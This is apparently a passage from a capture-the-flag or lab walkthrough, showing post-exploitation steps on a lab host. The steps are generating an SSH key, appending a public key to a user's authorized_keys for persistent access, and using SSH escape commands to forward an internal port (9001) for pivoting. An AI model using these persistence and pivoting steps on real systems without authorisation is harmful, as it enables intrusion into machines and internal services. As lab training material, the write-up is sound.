 ##### gen ecdsa key

```bash
ssh-keygen -t ecdsa -b 521
```

pass path with file name _id_ecdsa_

![ssh-keygen.png](ssh-keygen.png)

##### public key to authorised_keys

with echo move public key to authorised keys

```bash
echo "ecdsa-sha2-nistp521 AAAAE2VjZHNhLXNoYTItbmlzdHA1MjEAAAAIbmlzdHA1MjEAAACFBAF8RoPKOXwQx2cl9ChH2VbZif9nsWHPE8UAMAdK7eMyUzBHvHsr9QeRmtVnO+V1nZh3q6EPW04k6mF8jbZbNTGBGAGvyQ0qMiuT68oR64ouKCqy9rro7+uWl3738G6HSqge5rv35gwwGe2ZVNlx4SsuI+PsRFSvqi09j0IuHQEqXTEbPw== splitunknown@splitunknown" >> authorized_keys
```

##### ssh to server

```bash
ssh -i key/id_ecdsa apaar@10.10.10.162
```

##### PIVOTING

```bash
netstat -nlpt
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:9001          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
```

```bash
~C
ssh>
```

```bash
ssh> help
Commands:
      -L[bind_address:]port:host:hostport    Request local forward
      -R[bind_address:]port:host:hostport    Request remote forward
      -D[bind_address:]port                  Request dynamic forward
      -KL[bind_address:]port                 Cancel local forward
      -KR[bind_address:]port                 Cancel remote forward
      -KD[bind_address:]port                 Cancel dynamic forward
```

```ssh
ssh> -L 9001:127.0.0.1:9001
Forwarding port.
```

![pivoting.png](pivoting.png)
